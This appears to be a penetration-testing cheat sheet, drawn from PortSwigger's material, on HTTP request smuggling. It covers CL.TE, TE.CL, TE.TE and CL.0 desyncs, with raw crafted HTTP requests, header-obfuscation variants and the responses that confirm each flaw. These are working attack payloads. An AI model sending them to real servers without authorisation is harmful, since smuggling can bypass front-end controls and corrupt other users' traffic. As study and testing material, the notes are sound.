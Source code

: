 > From the PortSwigger very good article:\
> https://portswigger.net/web-security/request-smuggling/finding

## What is smuggling

To know when the body of POST request ends, servers can use **Content-Length** and **Transfer-Encoding** headers.

- **Content-Length** specifies the length of the message body in bytes
- **Transfer-Encoding (chunked)** indicates the chunk length in hexadecimal at the top of the body, and then stoppes and it meets a 0 in the body

:warning: **Smuggling requests may occur when frontend (proxy, firewall) and backend servers do not use the same delimiter method.**

:information_source: Use HTTP/1.1 to exploit, because HTTP/2 is not vulnerable.\
:information_source: However, it is still possible to exploit if the frontend supports HTTP/2 but not the backend!

## CL.TE vulnerabilities
- **Frontend** uses **Content-Length**
- **Backend** uses **Transfer-Encoding**

```
POST /robots.txt HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

The next request should answer with a 404.

## TE.CL vulnerabilities
- **Frontend** uses **Transfer-Encoding**
- **Backend** uses **Content-Length**

:information_source: Deactivate *Update Content-Length* in Burp

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The next request should answer with a 404.

:information_source: The chunk size (here **5e**) is the length of the following chunk in hexadecimal (the chunk being the following request).

## TE.TE vulnerabilities
- Both use **Transfer-Encoding** but one of the servers can be induced not to process it by obfuscating the header in some way.

Ways to obfuscate the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## CL.0
- Front-end uses the **Content-Length** header and backend ignores it (treating it as having a value of 0 and treating the body as the next request).
- Transfer-Encoding header is useless as it is ignored by both frontend and backend servers.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3

xyzGET / HTTP/1.1
Host: vulnerable-website.com
```

The next request should give a **405 Method Not Allowed** as the backend will process the body as the next request, so with **xyzGET** method. 
